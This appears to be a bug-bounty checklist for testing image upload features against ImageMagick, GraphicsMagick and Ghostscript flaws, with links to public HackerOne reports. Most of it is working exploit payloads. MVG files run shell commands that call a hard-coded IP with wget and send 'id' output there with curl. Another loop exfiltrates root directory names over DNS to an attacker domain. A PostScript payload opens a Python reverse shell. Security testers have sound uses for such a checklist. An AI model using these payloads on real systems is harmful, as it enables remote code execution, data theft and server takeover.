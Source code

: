 # Image Magic / Graphics Magic vulnerabilities

- [ ] Anywhere where we can upload a picture, check for Image Tragic. Especially in profile picture uploads when we see a cropped version of the picture.

- [ ] Check for RCE (CVE-2016-3714)
  - https://hackerone.com/reports/135072

x.gif
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`wget -O- 167.71.9.74:1337 > /dev/null`'
pop graphic-context
```

  - https://web.archive.org/web/20190104220048/https://nahamsec.com/exploiting-imagemagick-on-yahoo/

x.png
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`id | curl http://167.71.9.74:1337/ -d @- > /dev/null`'
pop graphic-context
```

- [ ] Firewalls could be blocking certain requests. Try exfiltration through DNS.
  - https://4lemon.ru/2017-01-17_facebook_imagetragick_remote_code_execution.html
  
```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=%60for i in $(ls /) ; do curl "http://$i.attacker.tld/" -d @- > /dev/null; done`'
pop graphic-context
```  
  
- [ ] Check if we are able to edit an uploaded image. Does the request contain arguments? If the backend is using GraphicsMagic, we could inject commands.
  - https://hackerone.com/reports/212696

- [ ] If there is no validation on the file type and Ghostscript is enabled we could get RCE
  - https://hackerone.com/reports/422944

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("167.71.9.74",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') currentdevice putdeviceprops
```

- [ ] Check if we can disclose server memory through image magic (CVE-2017-15277, CVE-2018-16323)
  - https://hackerone.com/reports/302885
  - https://hackerone.com/reports/251732
  - https://hackerone.com/reports/274594
  - https://hackerone.com/reports/315256
